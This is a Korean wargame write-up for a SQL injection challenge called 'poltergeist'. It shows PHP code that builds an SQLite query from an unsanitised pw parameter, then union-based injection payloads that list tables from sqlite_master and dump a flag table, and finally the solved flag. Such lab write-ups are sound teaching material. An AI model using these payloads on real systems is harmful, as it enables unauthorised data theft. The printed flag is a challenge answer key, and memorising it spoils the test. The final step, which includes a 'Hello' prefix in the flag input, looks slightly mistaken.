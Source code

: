 # poltergeist

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/poltergeist.db");
  $query = "select id from member where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  if($poltergeistFlag === $_GET['pw']) solve("poltergeist");// Flag is in `flag_{$hash}` table, not in `member` table. Let's look over whole of the database.
  highlight_file(__FILE__);
?>
```

## 2. Condition
- get 파라미터 pw를 받는다.   
- 숨겨진 flag를 입력하면 최종적으로 문제가 해결된다.   

## 3. Solution
```
// Flag is in `flag_{$hash}` table, not in `member` table. Let's look over whole of the database.
```
주석을 참고하여 테이블부터 찾아보았다.   

sqlite는 mysql과 다른 방법으로 테이블을 찾아야 한다.   
바로, sqlite_master의 name을 참조하는 방법이다.   

바로 쿼리로 작성하였다.   

변수명 | 값
---|---:
`pw` | ' union select name from sqlite_master limit 0,1-- 


sqlite에는 concat함수가 없는 관계로,   
`limit`함수를 이용하여 하나하나 탐색하였다.   

결과적으로 'flag_70c81d99'와 'member' 두 테이블만 존재하는 것을 확인하였다.   





이어서, 'flag_70c81d99'속 값들을 확인하였다.   

변수명 | 값
---|---:
`pw` | ' union select * from flag_70c81d99-- 


결과는 다음과 같다.   

```
Hello FLAG{ea5d3bbdcc4aec9abe4a6a9f66eaaa13}
```


최종적으로 위 flag를 입력해주면 문제가 해결된다.   
변수명 | 값
---|---:
`pw` | Hello FLAG{ea5d3bbdcc4aec9abe4a6a9f66eaaa13}